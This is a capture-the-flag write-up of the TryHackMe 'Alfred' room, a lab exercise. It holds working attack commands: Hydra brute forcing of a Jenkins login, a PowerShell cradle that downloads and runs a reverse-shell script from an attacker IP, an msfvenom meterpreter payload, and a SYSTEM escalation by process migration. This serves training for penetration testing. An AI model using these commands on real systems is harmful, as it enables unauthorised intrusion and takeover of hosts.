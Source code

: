 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:  80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY ![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)
Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne ![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 
We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page ![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information ![Pasted image 20221028181138.png](Pasted image 20221028181138.png)
Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. ![Pasted image 20221028183503.png](Pasted image 20221028183503.png) By utilizing Hydra we see a successful login with the username admin and the password admin ![Pasted image 20221028190601.png](Pasted image 20221028190601.png) Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under ![Pasted image 20221028190845.png](Pasted image 20221028190845.png)  We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` ![Pasted image 20221028213828.png](Pasted image 20221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.![Pasted image 20221028213936.png](Pasted image 20221028213936.png) ![Pasted image 20221028214328.png](Pasted image 20221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` ![Pasted image 20221028221202.png](Pasted image 20221028221202.png) Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.![Pasted image 20221028221944.png](Pasted image 20221028221944.png) Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` ![Pasted image 20221028222440.png](Pasted image 20221028222440.png) Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. ![Pasted image 20221028223121.png](Pasted image 20221028223121.png) This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. ![Pasted image 20221028223212.png](Pasted image 20221028223212.png) With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. ![Pasted image 20221028224117.png](Pasted image 20221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.![Pasted image 20221028224629.png](Pasted image 20221028224629.png) ![Pasted image 20221028224954.png](Pasted image 20221028224954.png) 
